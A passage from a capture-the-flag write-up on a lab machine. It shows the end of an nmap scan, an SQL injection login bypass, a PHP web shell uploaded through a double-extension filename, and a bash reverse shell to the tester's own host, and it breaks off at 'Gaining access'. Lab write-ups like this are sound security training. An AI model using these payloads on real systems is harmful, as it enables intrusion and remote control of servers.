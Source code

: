 ```
2   28.12 ms 10.10.10.185

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.73 seconds
```

## Website
### Site

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914141654.png)

/login.php

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914141716.png)

I was able to login with simple sql injection

```
admin' or 1=1-- -
asdfa
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914141933.png)

Ok, so easy peazy, take random image open burp and edit it in repeater
add .php before .png and insert webshell into code

```
<?php system($_GET["cmd"]); ?>
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914145114.png)

now navigate /images/uploads/nameoffile

```
http://10.10.10.185/images/uploads/logo_small.php.png?cmd=whoami
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914145001.png)

We need to encode & to %26 otherwise it doesn't work
```
http://10.10.10.185/images/uploads/logo_small.php.png?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.8/443 0>%261'
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914145553.png)

and we got shell as www-data

## Gaining access
